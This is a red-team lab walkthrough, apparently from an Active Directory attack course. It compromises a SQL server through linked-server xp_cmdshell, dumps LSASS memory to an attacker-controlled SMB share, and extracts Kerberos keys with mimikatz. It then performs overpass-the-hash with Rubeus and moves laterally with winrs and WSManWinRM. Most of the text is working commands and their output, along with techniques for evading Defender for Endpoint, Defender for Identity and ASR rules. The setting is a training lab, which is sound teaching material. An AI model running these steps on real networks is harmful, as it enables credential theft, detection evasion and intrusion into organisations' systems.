


# Learning Objective 23

## Tasks

1. **Compromise `eu-sql26` again. Use OPSEC friendly alternatives to bypass MDE and MDI**

---

## Solution

1. **Compromise `eu-sql26` again. Use OPSEC friendly alternatives to bypass MDE and MDI**

Continuing from the previous *Learning Objective 22*, we have ability to run commands as `SYSTEM` on `eu-sql26`. This is perfect to leverage to perform an LSASS dump to further gain persistent credential access to the machine.

To dump the memory of LSASS process, we can begin by leveraging minidumpdotnet as it is undetected by AV/MDE since it uses a custom implementation of the `MiniDumpWriteDump()` API call.

**Tools Transfer and Execution**

Downloads over HTTP increase the chances of detection chained with other risky actions so we perform execution from an SMB share. We serve the minidumpdotnet and FindLSASSPID (to enumerate LSASS PID) on our student VM share named `studentshare422` (`C:\AD\Tool\studentshare422`).

On the student VM, create an SMB share called `studentshare422` with the following configuration: allow `Everyone` `Read/Write` permissions on the share.


Note: To make it easier in the lab we have enabled `Guest` access on the student VM so that `eu-sql26` can access our `studentshare422`. Note that your student machine name could also be `dcorp-std422`.


`hostname`:
```
dcorp-std422📌
```

Copy minidumpdotnet and FindLSASSPID tools in the share.

`copy C:\AD\Tools\minidumpdotnet.exe \\dcorp-std422\studentshare422`

`copy C:\AD\Tools\FindLSASSPID.exe \\dcorp-std422\studentshare422`

**LSASS DUMP using Custom APIs**

Next, begin by performing SQL crawl `xp_cmdshell` execution on `eu-sql26` to enumerate the LSASS PID using `FindLSASSPID.exe`.

Start a PowerShell session using InvisiShell, import PowerUpSQL and run the following command.


`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1`

`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\dcorp-std422.dollarcorp.moneycorp.local\studentshare422\FindLSASSPID.exe''' -QueryTarget eu-sql26`:
```
Version     : SQL Server 2019
Instance    : DCORP-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL}
User        : dcorp\student422
Links       : {DCORP-SQL1}

Version     : SQL Server 2019
Instance    : DCORP-SQL1
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1}
User        : dblinkuser
Links       : {DCORP-MGMT}

Version     : SQL Server 2019
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL26.EU.EUROCORP.LOCAL}

Version     : SQL Server 2019
Instance    : EU-SQL26🗄️
CustomQuery : {[+] LSASS PID: 708,📌 }
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL26.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

Note: LSASS PID will be different for each LAB instance.

To break a detection chain, we will run benign queries. In case of MDE, in our experience waiting for about 10 minutes also helps in avoiding detection.

`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT @@version' -QueryTarget eu-sql26`:
```
[SNIP]
```

We can now perform an LSASS dump using the minidumpdotnet tool and save it to the `studentshare422`.

Note: Performing an LSASS dump directly on disk on `eu-sql26` can cause the `.dmp` file to be corrupted as EDRs can sometimes mangle the `.dmp` file when written on disk.

`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\dcorp-std422.dollarcorp.moneycorp.local\studentshare422\minidumpdotnet.exe 708 \\dcorp-std422.dollarcorp.moneycorp.local\studentshare422\monkey422.dmp''' -QueryTarget eu-sql26`:
```
[SNIP]

Version     : SQL Server 2019
Instance    : EU-SQL26
CustomQuery :
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL26.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

Note that since the memory dump is being written to a fileshare, **you may need to wait for up to 10 minutes**. The dump file size will initially be 0KB but eventually be something approximately 10MB.

`dir C:\AD\Tools\studentshare422\monkey422.dmp`:
```
 Volume in drive C has no label.
 Volume Serial Number is 1A5A-FDE2

 Directory of C:\AD\Tools\studentshare422

02/18/2025  06:25 AM        10,461,130 monkey422.dmp
               1 File(s)     10,461,130 bytes📌
               0 Dir(s)   9,726,033,920 bytes free
```

Perform another benign query for safe measure to break any detection chain.

`Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'SELECT * FROM master.dbo.sysdatabases' -QueryTarget eu-sql26`:
```
[SNIP]
```

Back on our student VM we can now begin to parse the exfiltrated LSASS minidump (`monkey422.dmp`) using Mimikatz as follows. Run the below command **from an elevated shell** ('run as administrator').


`cd \AD\Tools`

`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`C:\AD\Tools\mimikatz.exe "privilege::debug" "sekurlsa::minidump C:\AD\Tools\studentshare422\monkey422.dmp" "sekurlsa::ekeys" "exit"`:
```
Program 'mimikatz.exe' failed to run: Access is deniedAt line:1 char:1
+ C:\AD\Tools\mimikatz.exe "sekurlsa::minidump C:\AD\Tools\studentshare ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ C:\AD\Tools\mimikatz.exe "sekurlsa::minidump C:\AD\Tools\studentshare ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```
❌



Note: If you encounter errors parsing the minidump file, most likely your student VM memory is full.
**Attempt a quick fix by logging in and out of the student VM. Also, turn off Windows Defender on the student VM.**

`C:\AD\Tools\mimikatz.exe "privilege::debug" "sekurlsa::minidump C:\AD\Tools\studentshare422\monkey422.dmp" "sekurlsa::ekeys" "exit"`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::ekeys
Opening : 'C:\AD\Tools\studentshare422\monkey422.dmp' file for minidump...

Authentication Id : 0 ; 605085 (00000000:00093b9d)
Session           : RemoteInteractive from 2
User Name         : dbadmin
Domain            : EU
Logon Server      : EU-DC
Logon Time        : 1/16/2025 8:43:32 AM
SID               : S-1-5-21-3665721161-1121904292-1901483061-1105

         * Username : dbadmin📌
         * Domain   : EU.EUROCORP.LOCAL🏛️
         * Password : (null)
         * Key List :
           aes256_hmac       ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f🔑
           rc4_hmac_nt       0553b02b95f64f7a3c27b9029d105c27
           rc4_hmac_old      0553b02b95f64f7a3c27b9029d105c27
           rc4_md4           0553b02b95f64f7a3c27b9029d105c27
           rc4_hmac_nt_exp   0553b02b95f64f7a3c27b9029d105c27
           rc4_hmac_old_exp  0553b02b95f64f7a3c27b9029d105c27

[SNIP]
```

Now, use Overpass-the-Hash on the student VM using Rubeus to start a process with privileges of the `dbadmin` user who is a member of `eu.eurocorp.local`. Run the below command **from a high integrity process on student VM** ('run as administrator').


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:dbadmin /aes256:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f /domain:eu.eurocorp.local /dc:eu-dc.eu.eurocorp.local /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
```
❌

`C:\AD\Tools\ArgSplit.bat`:
```
[!] Argument Limit: 180 characters
[+] Enter a string: asktgt
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

```
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

`echo %Pwn%`:
```
asktgt
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:dbadmin /aes256:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f /domain:eu.eurocorp.local /dc:eu-dc.eu.eurocorp.local /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Showing process : True
[*] Username        : LBGW5X5K
[*] Domain          : QPXO1AN5
[*] Password        : AE4IT2R8
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5944
[+] LUID            : 0x4a6c68

[*] Using domain controller: eu-dc.eu.eurocorp.local (172.16.15.2)
[!] Pre-Authentication required!
[!]     AES256 Salt: EU.EUROCORP.LOCALdbadmin
[*] Using aes256_cts_hmac_sha1 hash: ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f
[*] Building AS-REQ (w/ preauth) for: 'eu.eurocorp.local\dbadmin'
[*] Target LUID : 4877416
[*] Using domain controller: 172.16.15.2:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x4a6c68
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/EU.EUROCORP.LOCAL
  ServiceRealm             :  EU.EUROCORP.LOCAL🏛️
  UserName                 :  dbadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  EU.EUROCORP.LOCAL
  StartTime                :  2/18/2025 8:02:16 AM
  EndTime                  :  2/18/2025 6:02:16 PM
  RenewTill                :  2/25/2025 8:02:16 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  gKp83znHtcMMyAmddkiUOAtiiiNRRADOj57zqhzAaxg=
  ASREP (key)              :  EF21FF273F16D437948CA755D010D5A1571A5BDA62A0A372B29C703AB0777D4F
```

**Lateral Movement - ASR Rules Bypass**

We can now use winrs to access `eu-sql26`. Run the below commands **from the new spawned process as `dbadmin`**.




`klist`:
```
Current LogonId is 0:0x4a6c68

Cached Tickets: (1)

#0>     Client: dbadmin🎭 @ EU.EUROCORP.LOCAL
        Server: krbtgt📌/EU.EUROCORP.LOCAL @ EU.EUROCORP.LOCAL🏛️
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/18/2025 8:02:16 (local)
        End Time:   2/18/2025 18:02:16 (local)
        Renew Time: 2/25/2025 8:02:16 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:eu-sql26.eu.eurocorp.local cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dbadmin>
```
🚀


`set username`:
```
USERNAME=dbadmin
```
🚩

Note that use of winrs is not detected by MDE but MDI (Microsoft Defender for Identity) detects it.

To avoid detection, we can use the `WSManWinRM.exe` tool. We will append an ASR exclusion such as `C:\Windows\ccmcache\` **to avoid detections from the "Block process creations originating from PSExec and WMI commands" ASR rule.**

Run the below command **from the process spawned as `dbadmin`.**

Note: If the tool returns a value of 0, there is an error with command execution.

`exit`


`C:\AD\Tools\WSManWinRM.exe eu-sql26.eu.eurocorp.local "cmd /c set username C:\Windows\ccmcache\"`:
```
[*] Creating session with the remote system...
[*] Connected to the remote WinRM system
[*] Result Code: 000001B9CDEFB078

[ctrl+c]
```

**To see the command output**, we can redirect the command to share on the student VM. This has very limited success and we are continuously trying ways to make it more effective.

`C:\AD\Tools\WSManWinRM.exe eu-sql26.eu.eurocorp.local "cmd /c dir >> \\dcorp-std422.dollarcorp.moneycorp.local\studentshare422\out.txt C:\Windows\ccmcache\"`:
```
[*] Creating session with the remote system...
[*] Connected to the remote WinRM system
[*] Result Code: 000001B9CDEFB078

[ctrl+c]
```
❌

---
---
